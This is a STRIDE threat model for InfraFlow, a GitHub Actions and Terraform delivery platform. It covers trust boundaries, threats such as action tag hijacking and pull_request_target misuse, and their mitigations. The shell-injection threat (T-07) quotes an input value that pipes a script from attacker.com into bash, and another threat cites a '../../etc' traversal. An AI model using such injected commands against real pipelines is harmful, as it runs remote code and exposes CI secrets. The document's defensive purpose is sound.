

# InfraFlow — Threat Model & Trust Boundaries

## 1. Scope & Methodology

This threat model analyzes the security boundaries, attack vectors, and defensive controls of the **InfraFlow** multi-cloud Terraform delivery platform.

The methodology follows the **STRIDE** model (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege) adapted specifically for modern CI/CD supply chains and GitHub Actions reusable workflows.

---

## 2. Trust Boundaries & Actors

### Trust Boundary Definitions

| Boundary | Description | Trust Level | Enforced Controls |
|---|---|---|---|
| **Boundary 1: Contributor to CI Trigger** | PRs submitted from repository forks or unvetted branches. | **Untrusted** | Use `pull_request` only (never `pull_request_target`). No write tokens. |
| **Boundary 2: Caller to Reusable Workflow** | Input parameters passed via `workflow_call`. | **Partially Trusted** | Input Sanitization Guard, POSIX regex validation, no string concatenation in scripts. |
| **Boundary 3: Runner Sandbox to Host** | Ephemeral runner OS filesystem and environment. | **Isolated Sandbox** | Short-lived VM, no persistent daemon, minimal default token scopes. |
| **Boundary 4: Action Marketplace & Dependencies** | Third-party GitHub Actions referenced by name/version. | **Untrusted Source** | Strict 40-character commit SHA pinning. |
| **Boundary 5: CI Runner to Cloud Control Plane** | Future cloud deployments and state storage (G03). | **High Value Target** | OIDC token exchange on protected branches only. Zero static credentials. No access in PR jobs. |

---

## 3. STRIDE Threat Analysis

### 3.1 Spoofing (Identity & Origin)
- **Threat T-01: Malicious Fork Impersonating Privileged Workflow**
  - *Risk*: Attacker sends a PR modifying the caller workflow to request elevated permissions or steal credentials.
  - *Mitigation*: Reusable workflow enforces `permissions: contents: read`. PR jobs running on forks only receive a read-only token and have no access to organization secrets.

### 3.2 Tampering (Integrity)
- **Threat T-02: Action Tag Hijacking in Supply Chain**
  - *Risk*: An attacker compromises a third-party action repository (e.g. `actions/checkout`) and moves tag `v4` to point to a malicious commit.
  - *Mitigation*: All external actions are pinned to immutable 40-character commit SHAs (`actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683`).

- **Threat T-03: Terraform Configuration & Test Tampering**
  - *Risk*: PR author modifies tests to trivially pass (`assert { condition = true }`).
  - *Mitigation*: PR branch reviews and branch protection rules enforce code reviews. Core platform CI enforces format, initialization, and validation independently.

### 3.3 Repudiation (Auditability)
- **Threat T-04: Lack of Traceability in Reusable Workflow Invocations**
  - *Risk*: Inability to determine which version of InfraFlow validated a specific release.
  - *Mitigation*: Reusable workflow version is permanently recorded in GitHub Actions workflow execution logs, commit history, and release tags.

### 3.4 Information Disclosure (Confidentiality)
- **Threat T-05: Secret Exfiltration via Shell or Terraform Variables**
  - *Risk*: Untrusted code echoes repository secrets or uploads debug logs containing environment variables.
  - *Mitigation*: No secrets are passed to Tier 1 validation jobs. PR workflows run with zero secrets declared. `terraform init` runs with `-backend=false`, eliminating remote backend credential requirements.

### 3.5 Denial of Service (Availability)
- **Threat T-06: Resource Exhaustion via Infinite Loops or Massive Tests**
  - *Risk*: A PR includes a runaway script or circular dependency exhausting runner minutes.
  - *Mitigation*: GitHub Actions default job timeouts (default 360 minutes, explicitly configured to 15 minutes in jobs).

### 3.6 Elevation of Privilege (Authorization)
- **Threat T-07: Shell Script Injection via Workflow Inputs**
  - *Risk*: Attacker passes a working directory such as `test; curl -s http://attacker.com/malicious.sh | bash`.
  - *Mitigation*: Inputs are never directly evaluated in shell strings (`run: cd ${{ inputs.working-directory }}`). Inputs are mapped to environment variables and checked against strict alphanumeric regexes before execution.

- **Threat T-08: Privilege Escalation via `pull_request_target`**
  - *Risk*: Using `pull_request_target` gives PR code access to write tokens and secrets of the base repository.
  - *Mitigation*: `pull_request_target` is strictly forbidden in InfraFlow. All verification workflows use standard `pull_request`.

- **Threat T-09: Directory Traversal across Runner Filesystem**
  - *Risk*: Passing `../../etc` to read or overwrite runner files.
  - *Mitigation*: Working directory input is validated using regex `^[a-zA-Z0-9_./-]+$` and checked for `..` sequences, terminating the job on detection.

---

## 4. Security Invariants Checklist

1. [x] **Zero Cloud Credentials in PR**: Verification workflows never require cloud tokens.
2. [x] **Explicit Minimal Permissions**: `permissions: contents: read` specified at top-level.
3. [x] **Full Commit SHA Action Pinning**: Every `uses:` reference contains 40 hexadecimal characters.
4. [x] **Input Isolation**: All GitHub context expressions mapped to environment variables.
5. [x] **Defensive Path Validation**: Paths checked for `..` and disallowed characters before `cd`.
6. [x] **Backend-Free Initialization**: `terraform init -backend=false` avoids remote state contact.
7. [x] **Wrapper Disabled**: `terraform_wrapper: false` ensures raw CLI exit codes without wrapper distortion.
